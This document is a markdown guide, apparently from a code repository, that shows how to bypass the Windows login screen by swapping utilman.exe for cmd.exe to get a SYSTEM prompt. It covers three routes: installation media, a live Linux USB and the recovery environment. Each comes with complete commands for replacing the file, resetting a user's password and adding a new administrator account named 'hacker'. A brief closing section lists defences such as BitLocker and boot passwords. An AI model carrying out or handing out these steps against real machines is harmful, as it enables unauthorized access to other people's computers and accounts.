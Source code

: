 # Windows Login Bypass via utilman.exe Replacement

## Why This Works

* At the Windows login screen, pressing **Win + U** (or clicking the Ease of Access button) launches `utilman.exe` **as SYSTEM** before login.
* If `utilman.exe` is replaced with `cmd.exe`, you get a SYSTEM-level command prompt — which can reset passwords or create new admin accounts.

## Method 1 — Windows Installation Media

**Requirements:**

* Bootable Windows installer USB/DVD
* BitLocker disabled (or recovery key)

**Steps:**

1. Boot from Windows installation media.

2. At the language selection screen, press **Shift + F10** to open Command Prompt.

3. Identify Windows partition:

   ```cmd
   diskpart
   list volume
   exit
   ```

4. Go to System32:

   ```cmd
   cd C:\Windows\System32
   ```

   *(Replace `C:` with the correct drive letter if needed)*

5. Backup and replace utilman.exe:

   ```cmd
   rename utilman.exe utilman_backup.exe
   copy cmd.exe utilman.exe
   ```

6. Reboot (remove USB).
   At login, press **Win + U** → SYSTEM command prompt appears.

7. Reset password:

   ```cmd
   net user username newpassword
   ```

   Or create new admin:

   ```cmd
   net user hacker pass123 /add
   net localgroup administrators hacker /add
   ```

8. Restore utilman.exe after login:

   ```cmd
   copy utilman_backup.exe utilman.exe
   ```

---

## Method 2 — Live Linux USB

**Requirements:**

* Bootable Linux live USB (Ubuntu, Kali, etc.)
* BitLocker disabled (or recovery key)

**Steps:**

1. Boot from the live Linux USB.
2. Mount the Windows partition:

   ```bash
   sudo fdisk -l
   sudo mount /dev/sda1 /mnt   # replace sda1 with correct partition
   ```

3. Go to System32:

   ```bash
   cd /mnt/Windows/System32
   ```

4. Backup and replace utilman.exe:

   ```bash
   mv utilman.exe utilman_backup.exe
   cp cmd.exe utilman.exe
   ```

5. Reboot into Windows and trigger with **Win + U**.

## Method 3 — From Windows Recovery Environment (No External Media)

**When It Works:**

* If you can access the **Advanced Startup Options** before login (Shift + Restart, or automatic recovery after failed boots).
* No BitLocker, or you have recovery key.

**Steps:**

1. From login screen → click **Power** → hold **Shift** → click **Restart**.
2. Choose:

   ```cmd
   Troubleshoot → Advanced options → Command Prompt
   ```

3. In the terminal, find Windows drive:

   ```cmd
   diskpart
   list volume
   exit
   ```

4. Replace utilman.exe:

   ```cmd
   cd C:\Windows\System32
   rename utilman.exe utilman_backup.exe
   copy cmd.exe utilman.exe
   ```

5. Close Command Prompt, continue to login screen, press **Win + U**.

---

## **Defense Against This Attack**

* **Enable BitLocker** — stops offline modification without key.
* **Secure Boot** — reduces chance of unsigned OS modification.
* **BIOS/UEFI Password** — prevents boot order changes.
* **Disable external boot devices** — no USB/DVD boot.
* **Monitor physical access** — the method requires being at the machine.

---
